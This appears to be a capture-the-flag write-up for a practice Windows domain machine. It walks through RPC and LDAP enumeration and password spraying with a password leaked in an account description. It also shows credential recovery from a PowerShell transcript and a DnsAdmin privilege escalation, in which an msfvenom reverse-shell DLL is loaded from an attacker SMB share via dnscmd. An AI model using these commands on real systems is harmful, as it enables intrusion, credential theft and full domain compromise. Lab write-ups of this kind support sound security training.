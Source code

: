 # user:
  - nmap directory for initial scans
  - domain: megabank.local
  - Can connect with anonymous RPC
    - ```rpcclient -U "" -N 10.10.10.169```
    - Found a list of users (users.txt) and groups (groups.txt)
  - Enumeration with LDAP (ldap_search.txt)
    - ```ldapsearch -h 10.10.10.169 -p 389 -x -b "DC=megabank,DC=local" -s subtree '(objectclass=*)'```
  - enum4linux found 'enum.txt'
    - 'index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!'
  - stuff_creds.sh is a script I wrote to test that password for all users
    - Found creds for melanie
  - SMB Shares
    - IPC$ (READ ONLY)
    - NETLOGON (READ ONLY)
    - SYSVOL (READ ONLY)
  - But none of the shares I can read have anything useful (IPC and NETLOGON don't have anything at all)
  - Tried to login to Evil-WinRM as melanie, and it worked!
  - user pwned

# root:
  - Just as a general enum tip (that I like to do)
    - Look at WHEN the files/directories were modified
    - If it's around the time of the release of the box, it's probably safe to assume it's relevant
    - If it's like 2016-2017 or even 2018 (2-4 years out), it's probably safe to assume it's not
  - Another user 'ryan' has a directory in 'C:\Users' -> probably indicating the need for 2 privescs
    - melanie -> ryan -> admin?
  - Found a weird text file in 'C:\PSTranscripts\20191203\'
    - Looks like a powershell history file
    - Found this 'cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!' -> maybe that's ryan's pw?
    - Yep! Can login as ryan with evil-winrm
  - Found a note in ryan's desktop
    - 'due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute'
  - Ryan's a member of the contractor's group
  - Doesn't look like he has more access to the shares than melanie
  - Tried to connect to the 'NETLOGON' share as ryan, and it told me that it couldn't connect to 'Resolute.megabank.local' -> new domain added to /etc/hosts
  - Still nothing interesting in the shares
  - ```whoami /all``` shows we're a 'DnsAdmin'
  - Did some googling to find out if there are any privescs I can do
  - [found one](https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/)
  - Here are the steps:
    - [LOCAL] ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.128 LPORT=4444 --platform=windows -f dll > plugin.dll```
    - [LOCAL] ```sudo python smbserver.py share ./``` - with smbserver found [here](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
    - [LOCAL] ```nc -nlvp 4444```
    - [REMOTE] ```dnscmd.exe resolute.megabank.local /config /serverlevelplugindll \\10.10.14.128\share\plugin.dll```
    - [REMOTE] ```sc.exe stop dns```
    - [REMOTE] ```sc.exe start dns```
  - After you restart dns, you'll catch an Admin reverse shell in your nc listener
  - root pwned
